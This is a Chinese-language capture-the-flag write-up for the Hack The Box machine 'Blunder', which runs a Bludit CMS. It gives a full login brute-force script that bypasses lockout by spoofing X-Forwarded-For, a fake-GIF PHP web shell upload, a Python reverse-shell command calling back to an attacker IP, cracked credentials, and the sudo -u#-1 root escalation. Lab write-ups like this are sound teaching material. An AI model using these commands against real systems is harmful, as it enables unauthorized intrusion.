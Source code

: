 # Blunder\_191

![image-20200917085411234](assets/Blunder_191.assets/image-20200917085411234.png)

只开了80一个端口

![image-20200626081654031](assets/Blunder_191.assets/image-20200626081654031.png)

![image-20200626094051228](assets/Blunder_191.assets/image-20200626094051228.png)

![image-20200626094016377](assets/Blunder_191.assets/image-20200626094016377.png)

robots.txt

![image-20200626094455402](assets/Blunder_191.assets/image-20200626094455402.png)

![image-20200626094425214](assets/Blunder_191.assets/image-20200626094425214.png)

似乎是后台登录页面。

![image-20200626094126497](assets/Blunder_191.assets/image-20200626094126497.png)

![image-20200626094715869](assets/Blunder_191.assets/image-20200626094715869.png)

[https://www.exploit-db.com/exploits/48568](https://www.exploit-db.com/exploits/48568)

![image-20200626095130450](assets/Blunder_191.assets/image-20200626095130450.png)

![image-20200626095233595](assets/Blunder_191.assets/image-20200626095233595.png)

虽然存在一个漏洞利用方法，但是明显需要有效凭证。

浏览了打出来的很多页面，但是没有更多信息了。

尝试fuzz根目录下的文件，看看是否有更多线索。

```bash
wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/big.txt -z list,txt-php-html -u http://10.10.10.191/FUZZ.FUZ2Z --hc 404,403 -t 100
```

![image-20200626093421355](assets/Blunder_191.assets/image-20200626093421355.png)

![image-20200626094625579](assets/Blunder_191.assets/image-20200626094625579.png)

CMS刚升级完，估计不存在漏洞利用。

让通知`fergus`新博客需要图片，那这个人可能是网站管理员。

看来我们拥有用户名和登录页面，剩下就是暴力破解了。

抓登录包分析

![image-20200626095651081](assets/Blunder_191.assets/image-20200626095651081.png)

有token，常用暴力工具显然无法成功。google了一下发现了一个暴力脚本

[https://github.com/musyoka101/Bludit-CMS-Version-3.9.2-Brute-Force-Protection-Bypass-script/blob/master/bruteforce.py](https://github.com/musyoka101/Bludit-CMS-Version-3.9.2-Brute-Force-Protection-Bypass-script/blob/master/bruteforce.py)

修改已符合我们当前情况

```python
#!/usr/bin/env python3
import re
import requests

host = "http://10.10.10.191" # change to the appropriate URL

login_url = host + '/admin/login'
username = 'fergus' # Change to the appropriate username
fname = "wordlist.txt" #change this to the appropriate file you can specify the full path to the file
with open(fname) as f:
    content = f.readlines()
    word1 = [x.strip() for x in content] 
wordlist = word1

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```

![image-20200626122804028](assets/Blunder_191.assets/image-20200626122804028.png)

![image-20200626123151467](assets/Blunder_191.assets/image-20200626123151467.png)

```bash
fergus:RolandDeschain
```

成功登录

![image-20200626123606219](assets/Blunder_191.assets/image-20200626123606219.png)

制作一个伪造的gif cmd shell，并上传

```bash
vim gif_shell.gif
```

![image-20200626125008147](assets/Blunder_191.assets/image-20200626125008147.png)

![image-20200626124037477](assets/Blunder_191.assets/image-20200626124037477.png)

![image-20200626124921379](assets/Blunder_191.assets/image-20200626124921379.png)

我们伪造的后缀是gif，在上传时使用bp进行抓包，修改文件名后缀为php

![image-20200626124604872](assets/Blunder_191.assets/image-20200626124604872.png)

验证

```bash
http://10.10.10.191/bl-content/tmp/gif_shell.php?cmd=id
```

![image-20200626124743230](assets/Blunder_191.assets/image-20200626124743230.png)

执行命令，在1337端口监听以获得rshell

```bash
http://10.10.10.191/bl-content/tmp/gif_shell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.189",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image-20200626125622567](assets/Blunder_191.assets/image-20200626125622567.png)

经过一些搜寻枚举后发现

![image-20200626125827707](assets/Blunder_191.assets/image-20200626125827707.png)

```bash
hugo:faca404fd5c0a31cf1897b823c695c85cffeb98d
```

![image-20200626125951359](assets/Blunder_191.assets/image-20200626125951359.png)

```bash
hugo:Password120
```

直接切换用户

![image-20200626130223106](assets/Blunder_191.assets/image-20200626130223106.png)

切换后的提权极为简单，`!root`参数，这种情况一句话即可提权`sudo -u#-1 /bin/bash`

参考[https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

先拿user.txt

![image-20200626130544741](assets/Blunder_191.assets/image-20200626130544741.png)

提权

![image-20200626130810969](assets/Blunder_191.assets/image-20200626130810969.png)

![image-20200626130950190](assets/Blunder_191.assets/image-20200626130950190.png)


